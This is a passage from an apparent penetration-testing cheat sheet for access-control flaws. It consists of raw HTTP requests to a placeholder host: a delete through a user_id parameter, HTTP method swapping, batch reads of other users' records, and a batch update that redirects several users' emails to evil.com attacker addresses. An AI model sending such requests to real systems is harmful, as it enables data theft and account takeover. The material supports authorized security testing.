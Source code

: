 ### URL Parameter
```http
GET /api/user?user_id=5678&action=delete HTTP/1.1
Host: target.com
```

---

## HTTP Method Manipulation

### GET to POST
```http
POST /api/user/1234 HTTP/1.1
Host: target.com
```

### POST to PUT
```http
PUT /api/user/1234 HTTP/1.1
Host: target.com
```

### HEAD Request
```http
HEAD /api/user/1234 HTTP/1.1
Host: target.com
```

---

## Batch Requests

### Batch ID Testing
```http
POST /api/batch HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "requests": [
    {"method": "GET", "path": "/user/1234"},
    {"method": "GET", "path": "/user/5678"},
    {"method": "GET", "path": "/user/9012"}
  ]
}
```

### Batch Operations
```http
POST /api/batchUpdate HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "updates": [
    {"user_id": "1234", "email": "attacker1@evil.com"},
    {"user_id": "5678", "email": "attacker2@evil.com"}
  ]
}
```

---